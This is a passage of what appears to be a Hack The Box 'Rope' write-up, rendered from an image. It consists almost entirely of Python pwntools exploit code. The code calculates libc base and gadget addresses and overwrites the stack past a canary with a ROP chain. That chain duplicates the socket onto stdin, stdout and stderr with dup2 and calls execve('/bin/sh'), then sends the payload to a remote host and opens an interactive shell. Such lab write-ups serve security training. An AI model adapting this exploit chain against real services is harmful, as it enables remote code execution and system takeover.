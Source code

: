     libc_base = u64(libc_write) - write_offset
    dup2 = p64(libc_base + dup2_offset)
    binsh = p64(libc_base + binsh_offset)
    execve = p64(libc_base + execve_offset)
    log.success("Calculated addresses:")
    print(f"    libc_base:          0x{libc_base:016x}")
    print(f"    dup2:               0x{u64(dup2):016x}")
    print(f"    execve:             0x{u64(execve):016x}")
    print(f"    binsh:              0x{u64(binsh):016x}")
    
    exploit =  junk + canary + rbp
    
    # dup2(4,0)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += dup2
    
    # dup2(4,1)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(1)
    exploit += p64(1)
    exploit += dup2
    
    # dup2(4,2)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(2)
    exploit += p64(2)
    exploit += dup2
    
    # execve("/bin/sh", 0, 0)
    exploit += pop_rdi_ret
    exploit += binsh
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(0)
    exploit += execve
    
    time.sleep(1)
    log.info("Sending shell exploit")
    p = remote(host, port)
    p.recvuntil("Please enter the message you want to send to admin:\n")
    p.send(exploit)
    p.interactive()
    p.close()
    

[](/2020/05/23/htb-rope.html)

